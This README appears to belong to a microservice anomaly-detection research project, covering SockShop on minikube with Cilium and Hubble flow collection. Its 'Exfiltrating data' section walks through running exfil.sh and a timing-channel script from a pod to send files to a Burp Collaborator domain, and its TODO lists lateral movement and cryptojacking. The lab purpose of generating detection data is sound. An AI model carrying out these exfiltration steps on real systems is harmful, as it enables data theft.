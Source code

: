 # Microservice Anomaly Detection
Brian: I want this repository to become the central repository for all things microservice related.
It is a mess and we need to cleanup the whole repository

## Deploying SockShop
1. Optional: Install minikube
2. Optional: Set minikube config to have enough memory and cpu (sets default)
   1. `minikube config set memory 16384`
   2. `minikube config set cpus 10`
3. Create a profile for your cluster: `minikube profile CLUSTER_NAME`
4. Start minikube: `minikube start --cni=cilium -p CLUSTER_NAME --memory 8192 --cpus 4`
5. Deploy SockShop: `bash deploy_sockshop.sh`

Check status of pods: `kubectl get pods --namespace sock-shop`

Get IP of front-end service: `minikube service --profile CLUSTER_NAME --url front-end -n sock-shop` 

Test if it is working `curl http://192.168.49.2:30001` or go to link in browser

## Debugging cilium connectivity 
1. Follow the guide for first time : https://kubernetes.io/docs/tasks/administer-cluster/network-policy-provider/cilium-network-policy/
2. Use https://docs.cilium.io/en/stable/gettingstarted/k8s-install-default/ to run tests : cilium connectivity test and cilium status --wait to verify outputs match.

## Simulating Traffic on SockShop
1. cd into `experiment_coordinator`
2. Setup a conda environment: `conda env create -f condaEnv.yml`
3. Cd into `traffic_simulation`
4. Activate conda env: `conda activate sockShop`
If you need to populate the database full of users: `python simulate_traffic.py -p`
4. Simulate traffic: `python simulate_traffic.py -t`

## Collecting Data with Cilium
1. To deploy cilium: `bash deploy_cilium.sh`
2. Test if its working: `cilium connectivity test`
3. Check if hubble is collecting flows : `hubble status`
4. To start collecting `hubble observe -n sock-shop -o json`

Cilium Documentation: https://docs.cilium.io/en/stable/gettingstarted/

----

##Deployment Instructions[Cryptk8s]

###Initial deployment
1. To cleanup minikube: `bash cleanup.sh`
2. To deploy minikube cluster with cilium and sockshop: `bash initiate.sh`
3. To deploy cilium with hubble: `bash deploy_cilium.sh`
4. Check the status of the cluster with `bash check_pods.sh`
5. Getting the IP of the front-end pod: `bash get_ip.sh`


###Exfiltrating data
1. Get into front end pod using `bash to_front.sh`
2. Once inside front end pod, execute `cd /tmp`
3. Write contents of attack script onto the pod using command `cat >exfil.sh` and pasting contents
4. Make the file executable by running `chmod +x exfil.sh`
5. Setup Burp Collaborator and copy domain name
6. Run exfil.sh with arguments: `./exfil.sh FILE_TO_BE_EXFILTRATED DOMAIN_NAME_FROM_BURP`
7. Repeat steps 3 to 6 with script tchan.sh for timing channel exfiltration

###Collecting data through hubble
1. Follow steps in `Collecting Data with Cilium`
2. Run command `bash observe_net.sh`

###TODO
1. Check hubble data collection
2. Lateral movement
3. Cryptojacking attack
